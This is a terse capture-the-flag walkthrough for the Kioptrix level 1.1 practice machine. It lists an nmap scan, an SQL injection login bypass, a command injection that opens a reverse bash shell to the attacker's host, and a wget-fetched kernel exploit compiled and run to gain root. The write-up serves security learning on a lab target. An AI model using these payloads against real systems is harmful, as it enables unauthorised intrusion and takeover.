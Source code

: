 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 10/december/2022

# Kioptrix level 1.1

----------------------------------------------------------------
# nmap scan (got website on port 80)
----------------------------------------------------------------
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
1002/tcp open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)

----------------------------------------------------------------
# website is vulnerable to sql injection in login form
----------------------------------------------------------------
' or 1=1 --

----------------------------------------------------------------
# got Basic Administrative Web Console (got reverse shell)
----------------------------------------------------------------
nc -lvnp 6969
10.0.2.9;bash -i >& /dev/tcp/10.0.2.9/6969 0>&1

----------------------------------------------------------------
# exploit vulnerable kernal version to get root access
----------------------------------------------------------------
uname -r   2.6.9-55.EL
exploit availble on exploitdb https://www.exploit-db.com/exploits/9542

-> python3 -m http.server 80
-> cd /tmp
-> wget http://10.0.2.9/9542.c
-> gcc -o explot 9542.c && ./explot
-> id uid=0(root) gid=0(root) groups=48(apache)
